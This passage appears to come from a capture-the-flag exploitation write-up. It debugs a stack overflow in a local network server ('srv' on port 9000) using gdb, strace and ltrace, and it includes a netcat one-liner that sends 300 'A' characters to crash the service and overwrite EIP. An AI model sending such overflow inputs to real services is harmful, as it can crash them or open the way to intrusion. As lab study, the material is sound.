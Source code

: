 ```bash
0028| 0xffffb45c ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```
* Create a core dump in `gdb` with `generate-core-file` ([Source](http://stackoverflow.com/questions/3789550/saving-core-file-in-gdb))

If you try other vulnerabilities - other than stack overflow - such as Format String Vulnerability or other, you don't get far.

To debug more, we apply `strace -f` and `ltrace -f` (`f`ollow childs, too) to the binary and try our stack overflow again:

```bash
$ python -c 'print "echo "+"A"*300' | nc localhost 9000
fash$ $
```

`ltrace` output:

```bash
$ ltrace -f ./srv 
[pid 2540] __libc_start_main(0x8048de1, 1, 0xff8882d4, 0x8048df0 <unfinished ...>
[pid 2540] socket(2, 1, 6)                                                                                    = 3
[pid 2540] setsockopt(3, 1, 2, 0xff8881f0)                                                                    = 0
[pid 2540] inet_addr("0.0.0.0")                                                                               = 0
[pid 2540] htons(9000, 1, 2, 0xff8881f0)                                                                      = 0x2823
[pid 2540] bind(3, 0xff888208, 16, 0xff8881f0)                                                                = 0
[pid 2540] listen(3, 100, 16, 0xff8881f0)                                                                     = 0
[pid 2540] signal(SIGCHLD, 0x1)                                                                               = 0
[pid 2540] accept(3, 0xff8881f8, 0xff8881f4, 0xff8881f0)                                                      = 4
[pid 2540] ntohs(2962)                                                                                        = 37387
[pid 2540] inet_ntoa({ 0x100007f })                                                                           = "127.0.0.1"
[pid 2540] printf("Received client from %s:%d\n", "127.0.0.1", 37387Received client from 127.0.0.1:37387
)                                         = 37
[pid 2540] fork()                                                                                             = 2543
[pid 2540] close(4)                                                                                           = 0
[pid 2540] accept(3, 0xff8881f8, 0xff8881f4, 0xff8881f0 <unfinished ...>
[pid 2543] <... fork resumed> )                                                                               = 0
[pid 2543] getpid()                                                                                           = 2543
[pid 2543] printf("Processing client: pid: %d socke"..., 2543, 4Processing client: pid: 2543 socket: 4
)                                             = 39
[pid 2543] close(3)                                                                                           = 0
[pid 2543] strlen("fash$ ")                                                                                   = 6
[pid 2543] send(4, 0x8048eac, 6, 0)                                                                           = 6
```